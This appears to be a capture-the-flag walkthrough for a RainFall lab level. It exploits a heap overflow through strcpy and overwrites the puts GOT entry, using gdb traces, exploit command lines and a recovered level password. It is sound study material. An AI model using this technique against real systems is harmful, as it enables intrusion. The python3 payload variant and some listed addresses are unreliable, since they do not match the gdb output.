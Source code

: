 # Level 07 Walkthrough

## Binary analysis

The binary allocates two structures and two string buffers on the heap. It uses `strcpy` to copy user input into the first buffer, then again into the second buffer, using pointers stored in the structures. The goal is to overflow the first buffer to overwrite the pointer in the second structure, so that the second `strcpy` writes to a controlled location (e.g., the GOT entry for `puts`).

With gdb, we find the addresses returned by `malloc` for the two structures and the two buffers:
```
- malloc for struct_1 (0x0804a018)
- malloc for buffer_1 (0x0804a028)
- malloc for struct_2 (0x0804a038)
- malloc for buffer_2 (0x0804a048)
```

```
(gdb) b *0x08048536
Breakpoint 1 at 0x8048536
(gdb) b *0x08048550
Breakpoint 2 at 0x8048550
(gdb) b *0x08048565
Breakpoint 3 at 0x8048565
(gdb) b *0x0804857f
Breakpoint 4 at 0x804857f
(gdb) r hello world
Starting program: /home/user/level7/level7 hello world

Breakpoint 1, 0x08048536 in main ()
(gdb) p/x $eax
$1 = 0x804a008
(gdb) c
Continuing.

Breakpoint 2, 0x08048550 in main ()
(gdb) p/x $eax
$2 = 0x804a018
(gdb) c
Continuing.

Breakpoint 3, 0x08048565 in main ()
(gdb) p/x $eax
$3 = 0x804a028
(gdb) c
Continuing.

Breakpoint 4, 0x0804857f in main ()
(gdb) p/x $eax
$4 = 0x804a038
```

```
level7@RainFall:~$ objdump -R ./level7 | grep puts
08049928 R_386_JUMP_SLOT   puts
```

## Exploitation

We overflow buffer_1 (starting at 0x0804a028) with 20 bytes to reach the pointer at 0x0804a03c. We overwrite this pointer with the address of the GOT entry for `puts` (0x08049928). Then, for the second argument, we provide the address of a function to execute (e.g., the address of a shell function or system call).

To determine the required padding, we need to understand the layout of the structures and buffers on the heap. Here, `buffer_1` starts at address `0x0804a028` and the pointer we want to overwrite in `struct_2` is located at `0x0804a03c`. The difference between these two addresses gives the number of bytes to fill in order to reach the target field:

0x0804a03c - 0x0804a028 = 0x14 = 20 bytes

So, we need 20 bytes of padding (for example, `"A"*20`) to fill `buffer_1` up to the pointer in `struct_2`.

Example payload:

```bash
./level7 "$(python3 -c 'print("A"*20 + "\x28\x99\x04\x08")')" "$(python3 -c 'print("\xf4\x84\x04\x08")')"
```

- 20 bytes of padding ("A"*20)
- Overwrite pointer with 0x08049928 (GOT entry for puts)
- Second argument: address to write (e.g., 0x080484f4)

## Commands used

```
./level7 "$(printf 'AAAAAAAAAAAAAAAAAAAA\x28\x99\x04\x08')" "$(printf '\xf4\x84\x04\x08')"
```

## Result

After running the exploit, we get the password for level8:

```
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```